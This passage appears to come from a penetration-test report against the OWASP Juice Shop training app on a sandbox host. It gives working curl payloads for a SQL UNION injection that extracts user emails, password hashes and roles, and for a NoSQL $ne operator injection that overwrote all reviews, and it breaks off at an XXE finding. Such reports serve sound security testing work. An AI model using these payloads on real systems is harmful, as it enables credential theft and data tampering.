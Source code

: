 2. Extract user credentials using UNION injection:
```bash
curl -s "http://juice-shop.sandbox.local:3001/rest/products/search?q=xxx%25%27%29%20AND%20description%20LIKE%20%27%25xxx%25%27%29%20UNION%20SELECT%20id,email,password,role,0,0,0,0,0%20FROM%20Users%20LIMIT%205--"
```

**Proof of Impact:**
Successfully extracted user database containing:
- Admin account: admin@juice-sh.op (hash: 0192023a7bbd73250516f069df18b500, role: admin)
- User accounts: jim@juice-sh.op, bender@juice-sh.op, bjoern.kimminich@gmail.com, ciso@juice-sh.op
- Password hashes (MD5) for all users
- Role assignments (admin, customer, deluxe)

**Notes:**
SQLite database confirmed via error messages. UNION injection requires proper closure of LIKE clauses in both name and description fields.

### INJ-VULN-04: NoSQL Operator Injection Mass Data Manipulation

**Summary:**
- **Vulnerable location:** PATCH /rest/products/reviews (id field)
- **Overview:** MongoDB operator injection enabling mass document updates
- **Impact:** Complete data integrity compromise - all reviews modified
- **Severity:** High

**Prerequisites:**
Valid JWT authentication token (obtained via INJ-VULN-01)

**Exploitation Steps:**

1. Authenticate using bypassed admin token from INJ-VULN-01

2. Execute NoSQL operator injection to modify all reviews:
```bash
curl -X PATCH "http://juice-shop.sandbox.local:3001/rest/products/reviews" \
  -H "Authorization: Bearer [ADMIN_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"id":{"$ne":-1},"message":"HACKED - All reviews modified"}'
```

**Proof of Impact:**
Successfully modified 28 reviews in the database using $ne (not equal) operator. The response confirmed:
- Modified: 28 documents
- All review messages changed to "HACKED - All reviews modified"
- Affected reviews from multiple users across different products

**Notes:**
The $ne operator bypassed intended single-document update restrictions due to object injection vulnerability and { multi: true } setting.

### INJ-VULN-06: XXE File Disclosure

**Summary:**
- **Vulnerable location:** POST /file-upload (XML file content)
- **Overview:** XML External Entity processing enabling file system access
- **Impact:** Sensitive file disclosure from server filesystem
- **Severity:** High
